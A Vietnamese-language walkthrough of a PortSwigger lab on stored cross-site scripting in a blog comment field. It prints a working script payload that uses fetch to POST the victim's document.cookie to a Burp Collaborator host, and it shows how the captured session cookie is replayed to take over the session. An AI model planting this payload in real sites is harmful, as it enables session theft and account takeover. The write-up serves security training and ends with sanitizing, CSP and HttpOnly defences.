



# Write-up: Exploiting cross-site scripting to steal cookies

### Tổng quan
Khai thác lỗ hổng Stored Cross-Site Scripting (XSS) trong chức năng comment của blog để thu thập `cookie` phiên của nạn nhân, gửi đến Burp Collaborator thông qua yêu cầu POST. Payload sử dụng hàm fetch để gửi `document.cookie`, sau đó sử dụng cookie thu được (`Yb3yfKP8EpHZFyRszDW6mIu2DQeKDJfE`) trong Burp Repeater để chiếm quyền truy cập phiên, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng Stored XSS trong chức năng comment để thu thập cookie phiên của nạn nhân, gửi đến Burp Collaborator, và sử dụng cookie để truy cập phiên của nạn nhân, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập một bài viết bất kỳ trên blog và gửi comment để kiểm tra khả năng XSS:
    - Comment: `<script>alert(1337)</script>`
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com

- **Phản hồi**: Quay lại bài blog, thấy hộp thoại hiển thị `1337`, xác nhận lỗ hổng Stored XSS trong trường comment vì mã `<script>` được thực thi trực tiếp:
    

2. **Khai thác (Exploitation)**
- Gửi comment mới với payload XSS:
    - Comment: 
        ```
        <script>
        fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
        });
        </script>
        ```
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com
- Cơ chế chi tiết của payload:
    - `<script>...</script>`: Chèn mã JavaScript vào comment, được lưu và thực thi khi nạn nhân xem bài blog.
    - `fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {method: 'POST', mode: 'no-cors', body: document.cookie}`): Gửi yêu cầu POST đến Burp Collaborator với body chứa cookie phiên của nạn nhân (`document.cookie`).
    - `mode: 'no-cors'`: Đảm bảo yêu cầu gửi được dù bị hạn chế CORS.

- Kết quả:  
    - Khi nạn nhân xem bài blog, comment chứa `<script>` thực thi, gửi cookie đến Burp Collaborator
    - Kiểm tra Burp Collaborator, thấy cookie phiên: `Yb3yfKP8EpHZFyRszDW6mIu2DQeKDJfE`:
        
    
- Gửi yêu cầu `GET / HTTP/2` đến Burp Repeater, thay giá trị Cookie bằng cookie và hoàn thành lab:
    


### Bài học rút ra
- Hiểu cách khai thác lỗ hổng Stored XSS để thu thập cookie phiên của nạn nhân thông qua fetch và Burp Collaborator, sử dụng cookie để chiếm quyền truy cập phiên.
- Nhận thức tầm quan trọng của việc làm sạch (sanitizing) input người dùng trong các trường như comment và triển khai các biện pháp bảo vệ như CSP hoặc thuộc tính cookie HttpOnly để ngăn chặn các cuộc tấn công XSS và đánh cắp cookie.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác Stored XSS để đánh cắp cookie phiên, nhấn mạnh tầm quan trọng của việc làm sạch input người dùng và sử dụng các biện pháp bảo vệ như `HttpOnly` và `CSP`. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*